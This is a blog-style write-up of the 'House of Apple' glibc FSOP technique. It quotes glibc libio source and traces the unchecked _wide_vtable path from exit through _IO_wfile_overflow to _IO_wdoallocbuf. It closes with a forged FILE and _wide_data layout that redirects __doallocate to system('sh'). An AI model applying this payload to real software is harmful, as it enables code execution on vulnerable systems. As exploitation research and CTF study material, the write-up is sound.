 ```yaml
---
title: House of Apple
date: 2023-12-05 23:13
excerpt: "Analysis of FSOP techniques: House of Apple"
categories:
  - FSOP series
tags:
    - pwn
    - fsop
---
```


Original article: <https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-1/>

Requirements:
1. can call `exit` or return from `main`
2. heap_base and libc_base
3. single largebin chunk

# Overview

In glibc, jumps from vtables are made via these macros:

```c
// example jump macro with 1 extra argument
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable(_IO_JUMPS_FILE_plus (THIS) + (THIS)->_vtable_offset) )
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_JUMPS_FILE_plus(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_WIDE_JUMPS(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

The macros for `WXXX` are not protected by `IO_validate_vtable`, so we can use
this to call arbitrary function. These macros are used in functions of
`_IO_wfile_jumps` vtable:

```c
const struct _IO_jump_t _IO_wfile_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_new_file_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wfile_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wfile_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wdefault_pbackfail),
  JUMP_INIT(xsputn, _IO_wfile_xsputn),
  JUMP_INIT(xsgetn, _IO_file_xsgetn),
  JUMP_INIT(seekoff, _IO_wfile_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_new_file_setbuf),
  JUMP_INIT(sync, (_IO_sync_t) _IO_wfile_sync),
  JUMP_INIT(doallocate, _IO_wfile_doallocate),
  JUMP_INIT(read, _IO_file_read),
  JUMP_INIT(write, _IO_new_file_write),
  JUMP_INIT(seek, _IO_file_seek),
  JUMP_INIT(close, _IO_file_close),
  JUMP_INIT(stat, _IO_file_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

The struct of `f->_wide_data` is

```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;
  wchar_t *_IO_read_end;
  wchar_t *_IO_read_base;
  wchar_t *_IO_write_base; // 0x18
  wchar_t *_IO_write_ptr;
  wchar_t *_IO_write_end;
  wchar_t *_IO_buf_base; // 0x30
  wchar_t *_IO_buf_end;	
  wchar_t *_IO_save_base;
  wchar_t *_IO_backup_base;
  wchar_t *_IO_save_end;
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable; // 0xe0
};
```

It's quite similar to FILE, but vtable is at 0xe0.

## _IO_wfile_overflow

### Analysis

When `exit` is called, the FILE cleanup call stack is `fcloseall -> _IO_cleanup -> _IO_flush_all_lockp`.

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // <--- overflow call
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}

// definition of _IO_OVERFLOW
typedef int (*_IO_overflow_t) (FILE *, int);
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

So for each FILE in `_IO_list_all`, its `vtable->__overflow` is called when the below requirements are satisfied:

1. `fp->_mode == 0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

We can set our victim FILE (`stderr`) to point to this vtable. On exit, it will call the
overflow function, `_IO_wfile_overflow`, which is defined as:

```c
wint_t _IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f); // <-- call to _IO_wdallocbuf macro
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
    // ...
    }
}

void _IO_wdoallocbuf (_IO_FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}

#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
```

The `_IO_wfile_overflow` function calls `_IO_wdoallocbuf`, which then calls
`__doallocate` of the `_wide_vtable`, passing the FILE struct as the first
argument. As mentioned, the `_wide_vtable` performs no checks so we can point
this to system.

So our call stack looks like this:

```
_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> _wide_data._wide_vtable.__doallocate
```

Analyzing each of the functions, we need to satisfy:
1. `f->flags == ~(0x8 | 0x800 | 0x2)` (unset `_IO_NO_WRITES`, `_IO_CURRENTLY_PUTTING` and `_IO_UNBUFFERED`)
2. `f->_wide_data->_IO_write_base == 0`
2. `f->_wide_data->_IO_buf_base == 0`

Then our desired function goes into `__doallocate (_wide_vtable+0x68)`, and rdi goes into `flags`.

### Payload

With the above conditions satisfied, our FILE struct will look like this:

```c
// FILE
f->_flags = "  sh";
f->write_base = 0; // +0x20
f->write_ptr = 1; // +0x28
f->_wide_data = ; // <ptr to forged wide_data struct> at +0xa0
f->_mode = 0; // +0xc0 (note: pwntools FILE struct doesn't have this, but can leave as blank cos default is likely 0)
f->vtable = &_IO_wfile_jumps; // +0xd8

// _wide_data (can forge in heap etc)
_wide_data->_IO_write_base = 0; // +0x18
_wide_data->_IO_buf_base = 0; // +0x30
_wide_data->_wide_vtable = *(&(system) - 0x68); // <ptr to (system - 0x68)> at +0xe0
```

There are a few more gadget chains using `_IO_wfile_underflow_mmap`,
`_IO_wdefault_xgetn`, `_IO_wfile_underflow`, `_IO_wdo_write` and
`_IO_wfile_sync` which I will put here once I analyze them.
